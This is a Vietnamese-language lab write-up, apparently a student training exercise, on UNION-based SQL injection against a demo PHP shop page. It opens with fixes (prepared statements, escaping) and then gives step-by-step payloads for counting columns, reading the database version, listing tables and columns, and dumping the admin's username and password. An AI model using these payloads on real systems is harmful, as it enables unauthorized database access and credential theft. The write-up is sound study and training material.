 # Link demo : https://github.com/l3mnt2010/task2_KCSC/tree/main/demo/unionBase
# Cách khắc phục :
Có thể khắc phục bằng cách tham số hóa đầu vào của thâm số người dùng truyền vào bằng một số cách như là:
-  $stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
  $stmt->bind_param("ss", $username, $password);
  $stmt->execute();
- Hoặc làm sạch đầu vào   $cleaned_username = mysqli_real_escape_string($conn, $username);
$cleaned_password = mysqli_real_escape_string($conn, $password);
- Và tìm hiểu các CVE của các phiên bản để tránh được lỗi này có thể xảy ra.


Đây là giao diện khi em vào trong trang chính

![Alt text](./imagesUnionBase/image.png)

Khi em click vào chọn mục products thì sẽ lấy 1 param name và sau đó hiện ra sản phẩm
![Alt text](./imagesUnionBase/image-1.png)

* Nhận định đầu tiên có vẻ như là khi mình click vào chọn products thì sẽ lấy tên này truyền vào trong truy vấn và map ra sản phẩm nên em thử với payload:  --

![Alt text](./imagesUnionBase/image-2.png)
Xác định được điểm có thể bị tấn công SQL injection nên em sẽ vào tấn công bên trong burp

Đây là điểm em sẽ tấn công :<
![Alt text](./imagesUnionBase/image-3.png)

![Alt text](./imagesUnionBase/image-4.png)
Vì ở đây em chèn không cần dấu phẩy trên để đóng tên kiểu : '--
Nên là có vẻ như là câu lệnh sẽ chèn trực tiếp vào
và dòng code đó như sau :

![Alt text](./imagesUnionBase/image-5.png)
Câu truy vấn bị injection đó là : 
                                         $name = $_GET['name'];
                                         $sql = "SELECT * FROM $name";

+ Nên sau khi em sử dụng payload : -- thì câu truy vấn sẽ trở thành  $sql = "SELECT * FROM products--"; Và nó vẫn hoạt động bình thường

+ Bị động một chút là em thấy sản phẩm có 5 mục được gen ra cho nên cộng thêm cột id không trả ra nữa em có thể đoán được số cột trả ra là >=6
- nên em dùng payload 'union select NULL, NULL, NULL, NULL, NULL, NULL--'
![Alt text](./imagesUnionBase/image-6.png)
+ Lúc này em nhận được thêm 1 item RỖNG
![Alt text](./imagesUnionBase/image-7.png)
Vậy là em có thể xác nhận được là bảng products có 6 cột trong đó

- Vì vậy cho nên em sẽ chọn lệnh union select để lấy thêm dữ liệu
+ Đầu tiên em sẽ lấy ra phiên bản version của database với payload '+UNION+SELECT+NULL,@@version,NULL,NULL,NULL,NULL--'
+ Em nhận được phiên bản là 8.0.30
![Alt text](./imagesUnionBase/image-8.png)
![Alt text](./imagesUnionBase/image-9.png)

+ Sau đó em dùng payload  "+UNION+SELECT+NULL,table_name,NULL,NULL,NULL,NULL+FROM+information_schema.tables--"
Sau đó em được rất nhiều bảng
![Alt text](./imagesUnionBase/image-10.png)

và có một bảng users
![Alt text](./imagesUnionBase/image-11.png)
<Vì html hơi dài nên em để ảnh cho dễ nhìn ạ chứ trong burp dài quá chụp không xuể ạ:v>

+ Sau đó em tiến hành xác định tên của cột có trong table_users với payload  
"+UNION+SELECT+NULL,column_name,NULL,NULL,NULL,NULL+FROM+information_schema.columns+WHERE+table_name='users'--"
![Alt text](./imagesUnionBase/image-12.png)
![Alt text](./imagesUnionBase/image-13.png)
+ Ta có thể thấy có 3 trường quan trọng là username, password và role
+ Mục đích của em là lấy được username và password của admin nên em sẽ sử dụng payload
"+UNION+SELECT+NULL,concat(username, '--->', password),NULL,NULL,NULL,NULL+FROM users--"
![Alt text](./imagesUnionBase/image-14.png)
Và em nhận được username là : administrator và password là hihi123
Vậy là em đã dumb thành công tài khoản mật khẩu của admin và từ đó có thể khai thác sau hơn với role admin.

Ngoài ra dạng này có có vài kiểu là nhà sản xuất sẽ có kiểu sản phần chưa phát hành nữa nên hay để RELEASE= 0 vì vậy mình có để chèn RELEASE= 1-- và như vậy mình có thể thấy được sản phầm chưa phát hành.